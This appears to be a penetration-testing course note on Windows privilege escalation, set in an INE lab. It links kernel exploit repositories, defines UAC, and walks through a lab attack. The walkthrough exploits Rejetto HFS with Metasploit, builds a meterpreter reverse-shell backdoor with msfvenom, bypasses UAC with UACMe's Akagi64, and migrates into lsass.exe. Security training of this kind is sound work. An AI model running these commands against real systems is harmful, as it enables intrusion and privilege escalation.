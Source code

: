 Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell. This process will differ based on the version of Windows being targeted and the kernel exploit being used.

- Windows-Exploit-Suggester: GitHub: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- Windows-kernel-Exploits: GitHub: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135


### Bypassing UAC

- UACMe: Github: https://github.com/hfiref0x/UACME

**UAC(User Account Controll)**

Definition: UAC is a Windows security feature introduced in Windows Vista. It helps prevent unauthorized changes to the operating system.
Purpose: It ensures that any changes to the system require approval from an administrator or a user with administrative rights.
Prompts: Non-privileged users receive a credential prompt (must enter administrator credentials). Privileged users see a consent prompt (just confirm the action).
Security Risk: Some attacks can bypass UAC, allowing malicious executables to run with elevated privileges without proper authorization.


### Bypassing UAC with UACMe Practical

With UACMe defeat Windows User Account Control by abusing built-in Windows AutoElevate backdoor.
- `nmap demo.ine.local` --> Port 80/Http is open
- `service postgresql start && msfconsole`
- `setg RHOSTS 10.2.22.223`
- `search rejetto`
- `use exploit/windows/http/rejetto_hfs_exec`
- `exploit`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.37.3 LPORT=1234 -f exe > backdoor.exe` generating interpreter payload with msf venom
- `service postgresql start && msfconsole` In a new tab
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 10.10.37.3`
- `set LPORT 1234`
- `run`
- `cd C:\\` Back on the tab with the aktive meterpreter session
- `mkdir Temp` create new directory because you never want to upload your malicious files in a working directory.
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe` You have to download this file first from the UACMe Link
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe` 
![image](https://github.com/user-attachments/assets/7603290a-e095-46ca-9b27-a38abf9abc25)
- `ps` show prozess list
- `migrate (PID from Process lsass.exe)`
- `sysinfo` and `getuid` to confirm
